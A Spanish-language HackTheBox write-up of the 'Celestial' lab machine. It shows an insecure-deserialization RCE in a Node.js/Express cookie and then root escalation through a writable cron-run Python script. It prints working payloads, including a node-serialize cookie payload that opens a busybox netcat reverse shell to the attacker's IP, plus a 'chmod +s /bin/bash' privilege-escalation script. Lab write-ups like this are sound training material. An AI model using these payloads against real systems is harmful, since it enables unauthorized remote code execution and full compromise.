---
# Descripcion

La máquina Celestial de HackTheBox explota una vulnerabilidad de deserialización insegura en una aplicación web desarrollada con Node.js y Express, permitiendo ejecutar comandos remotamente y obtener acceso inicial como el usuario sun. Para la escalada de privilegios, aprovechamos un script de Python ejecutado periódicamente por root mediante una tarea cron, sobre el que tenemos permisos de escritura. Modificando su contenido conseguimos asignar permisos SUID a Bash y obtener acceso como root.

---


# Enumeracion

## Nmap

> Comenzamos realizando un escaneo completo de puertos con **Nmap** para identificar los servicios expuestos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.228.94
```


> Una vez identificados los puertos abiertos, realizamos un segundo escaneo para obtener información más detallada sobre los servicios y sus versiones.

```bash
nmap -p3000 -sC -sV 10.129.228.94
```


## Web

> A continuación, utilizamos **WhatWeb** para identificar las tecnologías empleadas por el servidor web.

```bash
whatweb http://celectial.htb
```


> Accedemos al servicio web para examinar su funcionamiento y buscar posibles vectores de ataque.

**Web**



# Shell como sun

## Analizando vulnerabilidad

> Parece que estamos ante un servidor que utiliza `NodeJS` junto con `Express`. Si investigamos posibles vulnerabilidades relacionadas con estas tecnologías, encontramos una técnica conocida como `Insecure Deserialization` (deserialización insegura). Esta vulnerabilidad puede permitirnos enviar código malicioso a través de un parámetro de la `request`, que posteriormente será interpretado por el proceso de deserialización.
>
> Vamos a analizar una petición HTTP utilizando `Burp Suite` para identificar cómo se gestionan los datos enviados al servidor.



> Observamos que, al realizar la petición, se incluye una `cookie` llamada `profile`. Vamos a examinar su contenido para comprobar qué información almacena.



> Este es el contenido de la `cookie`. Vamos a intentar generar una nueva `cookie` añadiendo un parámetro extra. Si la vulnerabilidad está presente y el proceso de deserialización interpreta correctamente nuestra carga, podremos conseguir que se ejecute código en el servidor.
>
> Para ello, modificaremos el `JSON`, lo convertiremos a `Base64` y sustituiremos el valor original de la cookie `profile` por el nuevo contenido.
>
> Primero, vamos a comprobar si podemos ejecutar comandos mediante una petición `ping`. Para detectar si recibimos respuesta, nos pondremos a la escucha con `tcpdump`.

**Ejecutamos tcpdump**
```bash
sudo tcpdump -i tun0 icmp
```

**Creamos el nuevo JSON**
```json
{
    "username": "Dummy",
    "country": "Idk Probably Somewhere Dumb",
    "city": "Lametown",
    "num": "2",
    "rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.154', function(error,stdout, stderr) { console.log(stdout) });}()"
}
```

> Convertimos el contenido a `Base64` y sustituimos la cookie `profile` desde `Burp Suite`.





> Recibimos una petición `ICMP` en nuestro equipo, lo que confirma que el servidor está ejecutando el comando que le hemos enviado. Por tanto, podemos intentar conseguir una `reverse shell` para obtener acceso interactivo al sistema.

## Explotacion

**Nos ponemos a la escucha con Netcat**
```bash
nc -nvlp 4444
```

**Modificamos el JSON y lo enviamos mediante Burp Suite**
```json
{
    "username": "Dummy",
    "country": "Idk Probably Somewhere Dumb",
    "city": "Lametown",
    "num": "2",
    "rce":"_$$ND_FUNC$$_function(){require('child_process').exec('busybox nc 10.10.14.154 4444 -e /bin/bash', function(error,stdout, stderr) { console.log(stdout) });}()"
}
```



> Conseguimos establecer una conexión con el servidor y obtenemos acceso con el usuario `sun`.

# Shell como root

## Enumeracion

> Una vez dentro del sistema, comenzamos enumerando posibles vías de escalada de privilegios. Revisamos los permisos de `sudoers`, los binarios con permisos `SUID` y las `Capabilities`, pero no encontramos nada interesante por estas vías.

> A continuación, ejecutamos el comando `id` para comprobar los grupos a los que pertenece nuestro usuario.



> Observamos varios grupos interesantes, especialmente `sudo`. Sin embargo, no conocemos la contraseña del usuario `sun`, por lo que no podemos aprovechar directamente esta pertenencia.
>
> También encontramos el grupo `adm`, que puede permitirnos acceder a determinados archivos de registro del sistema. Vamos a investigar los logs de autenticación SSH para comprobar si encontramos alguna información útil.

**Consultamos auth.log**
```bash
cat /var/log/auth.log
```



> No encontramos información relevante, así que vamos a revisar el archivo `syslog`, donde podremos observar otros eventos y procesos registrados por el sistema.

**Consultamos syslog**
```bash
cat /var/log/syslog
```



## Cron Job Abuse

> Encontramos algo interesante: parece que el usuario `root` está ejecutando un script de `Python` que, después de ejecutarse, realiza una copia de archivos desde `/root`.
>
> Además, observamos que el resultado de la ejecución se almacena en el directorio del usuario `sun`, concretamente en un archivo llamado `output.txt`. Vamos a comprobar su contenido.

**Consultamos output.txt**
```bash
cat output.txt
```



> Ahora vamos a acceder al directorio `Documents` y comprobar los permisos del script que hemos encontrado.

**Enumeramos el directorio**
```bash
ls -la
```



> Observamos que tenemos permisos tanto de lectura como de escritura sobre el archivo. Esto es especialmente interesante, ya que, si el script se ejecuta periódicamente con privilegios de `root`, podremos modificar su contenido para ejecutar comandos con dichos privilegios.
>
> Vamos a comprobar qué contiene actualmente.

**Consultamos script.py**
```bash
cat script.py
```



> El script simplemente ejecuta una instrucción `print`. Vamos a modificarlo para que ejecute un comando del sistema en lugar de limitarse a mostrar un mensaje.
>
> Como el script se ejecuta con privilegios de `root`, vamos a aprovecharlo para asignar permisos `SUID` al binario `/bin/bash`. De esta manera, posteriormente podremos iniciar una shell conservando los privilegios elevados.

**Modificamos script.py**
```python
import os
os.system('chmod +s /bin/bash')
print("PrivSec Completed")
```

> Una vez modificado el script, solo tenemos que esperar a que vuelva a ejecutarse. Podremos comprobarlo cuando aparezca nuestro mensaje `PrivSec Completed` en el archivo `output.txt`.



> ¡Perfecto! Hemos conseguido que el binario `/bin/bash` tenga activado el permiso `SUID`. Ahora solo queda ejecutar una shell aprovechando este permiso para obtener acceso como `root`.

**Ejecutamos Bash**
```bash
bash -p
```



> ¡Ya tenemos acceso como `root`! Con esto damos por completada la máquina **Celestial**.